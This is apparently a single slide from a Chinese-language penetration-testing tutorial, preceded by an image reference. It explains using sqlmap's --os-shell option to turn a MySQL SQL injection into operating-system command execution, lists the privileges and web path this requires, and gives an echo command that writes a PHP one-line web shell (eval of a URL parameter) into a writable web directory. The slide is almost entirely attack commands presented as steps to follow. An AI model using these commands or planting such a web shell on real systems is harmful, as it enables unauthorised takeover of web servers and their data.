

八、使用shell命令：
参数--os-shell
前提：需要网站的物理路径，其次是需要有FILE权限。Root权限+secure-file-priv
sqlmap -r “C:\sqlmap\request.txt” -p id  --dms mysql --os-shell
接下来指定网站可写目录：
“C:\www”
d:\phpstudy\www   (成功）
 echo ^<?php @eval($_GET['x']); ?^> >shell1.php